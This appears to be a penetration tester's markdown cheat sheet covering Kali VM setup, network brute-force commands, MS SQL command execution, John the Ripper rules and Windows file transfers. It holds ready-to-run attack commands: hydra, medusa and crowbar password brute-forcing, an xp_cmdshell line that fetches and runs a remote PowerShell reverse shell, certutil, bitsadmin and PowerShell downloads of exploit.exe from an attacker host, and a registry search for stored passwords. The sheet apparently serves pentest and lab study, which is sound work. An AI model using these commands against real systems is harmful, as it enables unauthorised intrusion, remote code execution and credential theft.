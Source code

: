 # Command reference

## Links
Linux syscall table: https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

## Kali VM Setup

Commands for easy first-time setup of a Kali/Parrot VM after setting up a new image
<details>
 <summary>Expand</summary>

 ### OpenVPN Client Setup
 After downloading openvpn client configuration (.ovpn):

 ```
 sudo cp client.ovpn /etc/openvpn/[name].conf`
 systemctl [re]start openvpn.service
 systemctl status openvpn@[name].service
 ```

 ### Install/update useful packages and tools
 
 ```
 sudo apt update -y && sudo apt install -y gobuster crowbar metasploit-framework mingw-w64 powershell-empire nishang starkiller python3-pip python3-venv seclists curl enum4linux ffuf gobuster nbtscan nikto nmap onesixtyone oscanner smbclient smbmap smtp-user-enum snmp sslscan sipvicious tnscmd10g whatweb wkhtmltopdf`
 sudo python3 -m pip install git+https://github.com/Tib3rius/AutoRecon.git
 ```
 
 If gobuster install doesn't work:
 
 ```
 sudo apt install golang -y && go get github.com/OJ/gobuster && sudo cp ~/go/bin/gobuster /usr/local/bin
 ```

 ### Setup samba share for easy file transfers
 This makes file transfers between VMs/hosts easy if your Kali VM isn't local, like if it's setup on a server and you need to transfer files from another machine on the network.  This will open a share called "kali_share" under /mnt/kali_share with anonymous access allowed, which can obviously be a huge security risk, so configure it with creds and be careful about what you put in the share if you're worried about that.
 
 <details>
  <summary>Samba Config File</summary>
  
  ```
  [global]
  
  workgroup = WORKGROUP
  server string =  Windows ME
  netbios name = Workstation 
  security = user
  map to guest = bad user
  name resolve order = bcast host
  dns proxy = no
  bind interfaces only = yes


  [kali_share]
     path = /mnt/kali_share
     writable = yes
     browseable = yes
     guest ok = yes
     guest only = yes
     read only = no
     create mode = 0777
     directory mode = 0777
     force user = nobody
  ```
 </details>  
 
 Setup your Samba server with the above config file and start the service
 ```
 mkdir /mnt/kali_share
 sudo cp /etc/samba/smb.conf /etc/samba/smb.conf.bak
 sudo cp new.conf /etc/samba/smb.conf
 sudo systemctl [re]start smbd.service
 sudo systemctl enable smbd.service
 ```
 
 ### Misc setup commands
 ```
 sudo updatedb
 sudo systemctl enable ssh openvpn apache2
 sudo curl https://raw.githubusercontent.com/harringtonjd0/security/main/.vimrc -o ~/.vimrc
 sudo curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh -o /var/www/html/linpeas.sh
 sudo wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASany.exe -O /var/www/html/winpeasany.exe
 
 # Disable system beep because it's annoying
 sudo modprobe -r pcspkr
 sudo bash -c 'echo "blacklist pcspkr" >> /etc/modprobe.d/blacklist.conf'
 ```
</details>

## Network Brute Force Commands

### htacess
```
medusa -h <ip> -u user -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/blocked_dir
```

### RDP
```
crowbar -b rdp -s <ip> -u user -C /usr/share/wordlists/rockyou.txt -n 1
```

### SSH
```
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://<ip> -f -v
```

### HTTP Post
```
hydra <ip> http-form-post "/loginpage.php:user=admin&pass=^PASS^:<login failure message>" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```


## MS SQL RCE and Rev shell

```
sqsh -U sa -S <ip>:<port>

// Test xp cmdshell
xp_cmdshell 'whoami'
go
```

If necessary, enable xp_cmdshell
```
EXEC SP_CONFIGURE 'show advanced options',1
reconfigure
go


EXEC SP_CONFIGURE 'xp_cmdshell',1
reconfigure
go
```

### Rev shell options 
#### Will be tough if AV is running, try surveying system from here to find a better access method

```
xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring('http://1.1.1.2/rev.ps1')"`  
go
```

can also try certutil or powershell wget (if newish PSVersion)



## John Wordlist Mutation

### Will use Wordlist mode rules from /etc/john/john.conf
```
john --rules --wordlist=wordlist.txt hashes.txt
john --rules --stdout --wordlist=wordlist.txt > mutated_wordlist.txt
```

## John Wordlist Rules
```
[List.Rules:Wordlist]
$[0-9]
$[0-9]$[0-9]
cAz"[0-9]"
cAz"[0-9][0-9]"
cAz"[£!$]"
cAz"[0-9][£!$]"
```

#### or add to a custom rules list like [List.Rules:MyRule]
```
john --rules=MyRule --wordlist=wordlist.txt hashes.txt
```

 a good one to use is --rules=Jumbo



## Windows Misc
### Windows Files Transfers
HTTP
```
certutil.exe -urlcache -f http://10.10.10.10/exploit.exe bad.exe

bitsadmin /transfer update /download /priority normal http://10.10.10.10/exploit.exe C:\Windows\Temp\exploit.exe

powershell -c 'Invoke-WebRequest http://10.10.10.10/exploit.exe -outfile C:\Windows\Temp\exploit.exe'

powershell -c '(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/exploit.exe ", "C:\Windows\Temp\exploit.exe")'

```
SMB
```
// If you don't have an SMB set up, use impacket
impacket-smbserver export /tmp

// cmd.exe
net use \\10.10.10.10\export 
copy \\10.10.10.10\export\exploit.exe C:\Windows\Temp\exploit.exe
```

### Search through registry for "pass" in value name
```
reg query HKLM /f pass /t REG_SZ /s
```
